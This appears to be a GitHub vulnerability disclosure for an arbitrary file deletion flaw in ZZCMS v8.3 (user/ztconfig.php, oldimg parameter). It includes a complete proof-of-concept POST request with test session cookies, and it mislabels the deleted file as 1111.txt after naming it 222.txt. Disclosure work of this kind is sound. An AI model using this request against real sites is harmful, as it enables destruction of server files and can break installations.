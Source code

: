 # ZZCMS V8.3 Arbitrary file deletion vulnerability in user/ztconfig.php line 71 via the oldimg parameter
## Vulnerability CMS and version
zzcms v8.3   Download link:http://www.zzcms.net/download/zzcms8.3.zip
## Triggering conditions
Log in to access the user/ztconfig.php page
## Vulnerability details
in CMS user/ztconfig.php line 71,The CMS determines whether the oldimg parameter value exists. If it exists, then delete it and update it. Because the framework does not perform security filtering on the oldimg parameter value, any file deletion vulnerability is caused.
![](https://github.com/seedis/zzcms/blob/master/image/delete11.png)

## POC
```
POST /user/ztconfig.php?action=modify HTTP/1.1
Host: 192.168.30.216
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.30.216/user/ztconfig.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 587
Cookie: bdshare_firstime=1537240796511; PHPSESSID=gdfrssod38corqta0eho4shcs4; UserName=test; PassWord=a3f1308bd904cf33127380012be39839
Connection: close
Upgrade-Insecure-Requests: 1

swf=qipao3.swf&oldimg=/install/222.txt&img=/adfadf/adfadf&bannerheight=160&comanestyle=left&comanecolor=%23FFFFFF&daohang%5B%5D=%E7%BD%91%E7%AB%99%E9%A6%96%E9%A1%B5&daohang%5B%5D=%E6%8B%9B%E5%95%86%E4%BF%A1%E6%81%AF&daohang%5B%5D=%E5%93%81%E7%89%8C%E4%BF%A1%E6%81%AF&daohang%5B%5D=%E5%85%AC%E5%8F%B8%E7%AE%80%E4%BB%8B&daohang%5B%5D=%E6%8B%9B%E8%81%98%E4%BF%A1%E6%81%AF&daohang%5B%5D=%E8%B5%84%E8%B4%A8%E8%AF%81%E4%B9%A6&daohang%5B%5D=%E8%81%94%E7%B3%BB%E6%96%B9%E5%BC%8F&daohang%5B%5D=%E5%9C%A8%E7%BA%BF%E7%95%99%E8%A8%80&tongji=&baidu_map=&Submit2=+%E6%9B%B4%E6%96%B0%E8%AE%BE%E7%BD%AE+
```
Here we create the 222.txt file in the install directory for testing.Then delete the file by constructing a request,The oldimg parameter value is 222.txt 
![](https://github.com/seedis/zzcms/blob/master/image/delete22.png)

After the request is successful, you can see that the file 1111.txt we constructed was successfully deleted.
![](https://github.com/seedis/zzcms/blob/master/image/delete33.png)
